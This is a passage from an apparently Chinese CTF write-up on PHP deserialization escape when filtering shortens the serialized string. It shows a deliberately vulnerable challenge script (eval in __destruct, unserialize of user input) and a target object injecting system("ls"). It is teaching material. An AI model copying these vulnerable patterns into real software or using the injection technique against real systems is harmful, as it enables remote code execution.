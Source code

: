 ## 序列化内容由长变短

例题: beatme
index.php
```php
<?php
function filter($string) {
    $escape = array('\'', '\\\\');
    $escape = '/' . implode('|', $escape) . '/';
    $string = preg_replace($escape, '_', $string);

    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'nono', $string);
}

class Challenge{
    public $p;
    public $key;
    function __construct($p1="",$p2="",$key="echo 'can you beat me?';"){
        $this->p1 = $p1;
        $this->p2 = $p2;
        $this->key = $key;
    }
    function __destruct(){
        eval($this->key);
    }
}

if(!isset($_GET['p'])){
    $raw = serialize(new Challenge($_GET['p1'],$_GET['p2']));
    $safe = filter($raw);
    $a = unserialize($safe);
}else {
    $a = new Challenge();
}
```
1. 参数 p1,p2 可以传入两个参数用于实例化 Challenge 对象, Challenge 对象在销毁时会执行 eval, key 属性的内容无无法直接通过传参来控制
2. 调用 filter 函数处理序列化的内容, 但与 0ctf piapiapia 不同的地方在于这道题是由长变短, 从 where 替换为 nono 时会减少一个字符.

我们的目标是通过反序列化逃逸注入 key 属性,但与 0ctf piapiapia 不同的是, 由短变长时,一般控制目标的前一个字段,而由长变短时,就需要同时控制前两个字段, 这里为 p1 和 p2. 

我们想要构造的目标为:
```php
class Challenge{
    public $p1 = "";
    public $p2 = "";
    public $key = "system(\"ls\");";
}
$a = new Challenge();
echo serialize($a),"\n";
// O:9:"Challenge":3:{s:2:"p1";s:0:"";s:2:"p2";s:0:"";s:3:"key";s:13:"system("ls");";}
```
